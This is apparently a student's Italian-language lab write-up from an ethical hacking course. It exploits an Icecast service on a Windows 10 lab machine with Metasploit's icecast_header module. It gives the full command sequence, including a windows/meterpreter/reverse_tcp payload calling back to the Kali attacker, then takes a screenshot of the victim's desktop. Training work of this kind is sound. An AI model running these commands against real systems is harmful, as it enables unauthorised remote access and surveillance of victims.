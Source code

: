 # Consegna S7/L4: Utilizzo di Metasploit per sfruttare Icecast su Windows 10

## 📝 **Introduzione**
Questa relazione documenta l'uso di Metasploit per ottenere una sessione **Meterpreter** su un sistema Windows 10 vulnerabile con Icecast in esecuzione. L'obiettivo era sfruttare una vulnerabilità nota di Icecast per:

- 📍 Identificare l'indirizzo IP della vittima.
- 🖼️ Acquisire uno screenshot del desktop della vittima.

## 🛠️ **Setup dell'ambiente**

- **Macchina attaccante:** Kali Linux  
  - **IP:** `192.168.50.165`
- **Macchina vittima:** Windows 10 con Icecast in esecuzione  
  - **IP:** `192.168.50.6`
- **Strumenti utilizzati:** Metasploit Framework

## 🔍 **Analisi e Preparazione**
Prima di iniziare l'attacco, ho verificato che il servizio Icecast fosse attivo sulla macchina Windows:

1. Ho avviato Icecast sulla macchina Windows, confermando che fosse in ascolto sulla porta predefinita `8000`.
2. Con un rapido **Nmap**, ho controllato che la porta fosse effettivamente aperta:
   ```bash
   nmap -p 8000 192.168.50.6
   ```
   - Risultato: la porta era aperta e il servizio Icecast attivo.

## ⚙️ **Esecuzione dell'attacco**

1. **Avvio di Metasploit**
   Ho avviato il framework Metasploit sulla macchina Kali con il comando:
   ```bash
   msfconsole
   ```

2. **Caricamento dell'exploit**
   Ho scelto l'exploit `icecast_header` specifico per Icecast:
   ```bash
   use exploit/windows/http/icecast_header
   ```

3. **Configurazione dei parametri**
   Ho configurato le seguenti opzioni per l'attacco:
   ```bash
   set RHOSTS 192.168.50.6
   set RPORT 8000
   set payload windows/meterpreter/reverse_tcp
   set LHOST 192.168.50.165
   set LPORT 4444
   ```

4. **Lancio dell'exploit**
   Dopo aver verificato le configurazioni con `show options`, ho eseguito l'exploit:
   ```bash
   exploit
   ```
   - **Risultato:** Sessione Meterpreter aperta con successo!

## 🎯 **Obiettivi raggiunti**

1. **Identificazione dell'indirizzo IP**
   Ho utilizzato il comando `ipconfig` nella sessione Meterpreter per visualizzare l'indirizzo IP della vittima:
   ```bash
   ipconfig
   ```
   - **Output:** Mostrava l'indirizzo IP della vittima `192.168.50.6`.

2. **Acquisizione dello screenshot**
   Per ottenere un'immagine del desktop della vittima, ho eseguito:
   ```bash
   screenshot
   ```
   - **Risultato:** Lo screenshot è stato salvato con successo sulla macchina attaccante.

   ![Screenshot Desktop](./MeterpreterWin10.png)

## 🤔 **Riflessioni personali**

Questo esercizio mi ha permesso di comprendere meglio:

- 🕵️‍♂️ L'importanza della ricognizione e della preparazione prima di eseguire un exploit.
- 🔒 Le implicazioni di sicurezza di servizi non aggiornati come Icecast.
- 🛡️ La necessità di un approccio etico nell'uso di strumenti potenti come Metasploit.

La combinazione di analisi, configurazione accurata e utilizzo degli strumenti giusti ha reso possibile il successo dell'attacco. 

## 📂 **Struttura del progetto**

- `README.md`: Questo file, documentazione dell'esercizio.
- `MeterpreterWin10.png`: Screenshot catturato tramite Meterpreter.

## 🚀 **Conclusioni**

Questo esercizio dimostra quanto sia cruciale mantenere aggiornati i sistemi per prevenire vulnerabilità note. Come aspirante Ethical Hacker, continuo a rafforzare le mie competenze per identificare e mitigare tali rischi.

---
**Autore:** Sebastiano  
**Data:** 19 dicembre 2024
